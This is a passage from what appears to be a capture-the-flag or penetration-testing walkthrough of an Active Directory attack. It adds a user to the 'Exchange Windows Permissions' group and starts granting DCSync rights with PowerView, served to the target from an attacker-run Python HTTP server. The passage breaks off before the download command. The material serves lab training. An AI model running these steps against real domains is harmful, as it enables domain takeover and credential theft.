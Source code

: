 Add the user to to the _Exchange Windows Permission_ group.

```text
net group "Exchange Windows Permissions" /add rana
```

Confirm that the user was added to the group.

![](../images/max/870/1*-v16S627q0fJcxkP7EV-gQ.png)

Give the user DCSync privileges. We’ll use PowerView for this. First download [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) and setup a python server in the directory it resides in.

```text
python -m SimpleHTTPServer 5555
```

Then download the script on the target machine.
